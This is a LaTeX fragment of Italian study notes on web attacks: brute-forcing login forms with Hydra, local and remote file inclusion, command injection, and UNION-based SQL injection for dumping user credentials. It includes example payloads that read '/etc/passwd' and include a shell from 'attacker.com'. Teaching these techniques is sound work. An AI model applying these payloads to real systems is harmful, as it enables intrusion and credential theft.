 \documentclass[12pt, a4paper]{report}
\begin{document}
\begin{itemize}
	\item \textbf{Brute Force Online}: Sfruttando le richieste catturate dal proxy (es. un form POST di login), si usano strumenti come \textbf{Hydra} per iniettare massivamente combinazioni di username e password direttamente contro il form HTTP.
	\item \textbf{File Inclusion (FI)}: Vulnerabilità che permette di includere file locali o remoti in una richiesta.
	\begin{itemize}
		\item \textbf{LFI (Local File Inclusion / Path Traversal)}: Sfrutta parametri vulnerabili per risalire l'albero delle directory tramite i caratteri \texttt{../} (es. \texttt{?page=../../../../etc/passwd}) e forzare la lettura di file locali del sistema operativo.
		\item \textbf{RFI (Remote File Inclusion)}: Se l'applicazione non valida gli URL e la configurazione PHP lo consente, l'attaccante può forzare l'inclusione di uno script malevolo ospitato su un server sotto il suo controllo (es. \texttt{?page=http://attacker.com/shell.php}), ottenendo una \textit{Remote Command Execution} (RCE).
	\end{itemize}
	\item \textbf{Command Injection}: Sfrutta la mancata sanificazione dell'input per concatenare comandi di sistema arbitrari a quelli previsti dall'applicazione (es. un banale \texttt{ping}). Si basa sull'uso dei metacaratteri di concatenazione delle shell Linux (\texttt{\&\&}, \texttt{||}, \texttt{;}).
	\item \textbf{SQL Injection (UNION-based)}: Per estrarre dati non previsti dalla query originale si utilizza l'operatore \texttt{UNION}, seguendo un metodo rigoroso:
	\begin{enumerate}
		\item Si determina il numero esatto di colonne della query originale (usando \texttt{ORDER BY} o iniettando \texttt{NULL} multipli finché la query non va a buon fine).
		\item Si sfrutta l'\textbf{information\_schema} (lo standard SQL per i metadati) per enumerare dinamicamente la struttura del database. Interrogando \texttt{information\_schema.schemata}, \texttt{tables} e \texttt{columns} si estraggono i nomi esatti dei database, delle tabelle (es. \texttt{users}) e delle colonne (es. \texttt{username}, \texttt{password}) necessari per il dump finale.
	\end{enumerate}
\end{itemize}
\end{document}
